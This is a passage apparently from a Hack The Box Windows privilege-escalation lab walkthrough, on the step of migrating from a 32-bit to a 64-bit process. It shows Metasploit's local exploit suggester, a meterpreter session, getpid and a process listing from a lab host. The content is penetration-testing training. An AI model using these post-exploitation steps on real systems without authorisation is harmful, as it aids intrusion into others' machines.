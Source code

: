 2) Migrate from 32 to 64-bit Process

```
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1

[*] Starting interaction with 1...

meterpreter > getpid

Current pid: 2268


meterpreter > ps

Process List
============
 PID   PPID  Name               Arch  Session  User                    Path
 ---   ----  ----               ----  -------  ----                    ----
 0     0     [System Process]
 4     0     System
 164   1800  VMwareUser.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareUser.exe
 244   2032  winlogon.exe
 260   4     smss.exe
 288   476   svchost.exe
 332   324   csrss.exe
 376   324   wininit.exe
 476   376   services.exe
 492   376   lsass.exe
 500   376   lsm.exe
 584   476   mscorsvw.exe
 600   476   svchost.exe
 616   476   msdtc.exe
 676   476   svchost.exe
 744   476   taskhost.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\taskhost.exe
 756   1800  VMwareTray.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareTray.exe
 764   476   svchost.exe
 800   476   svchost.exe
 844   476   svchost.exe
 900   476   svchost.exe
 940   476   svchost.exe
 976   476   spoolsv.exe
 1012  476   sppsvc.exe
 1048  476   svchost.exe
 1112  476   VMwareService.exe
 1260  2460  powershell.exe     x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1408  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 1464  900   dwm.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\dwm.exe
 1632  476   svchost.exe
 1672  600   WmiPrvSE.exe
 2140  2460  cmd.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\cmd.exe
 2256  600   WmiPrvSE.exe
 2264  476   mscorsvw.exe
 2268  2628  rundll32.exe       x86   2        WINLPE-2K8\htb-student  C:\Windows\SysWOW64\rundll32.exe
 2460  2656  explorer.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\explorer.exe
 2632  2032  csrss.exe
 2796  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 2876  476   svchost.exe
```
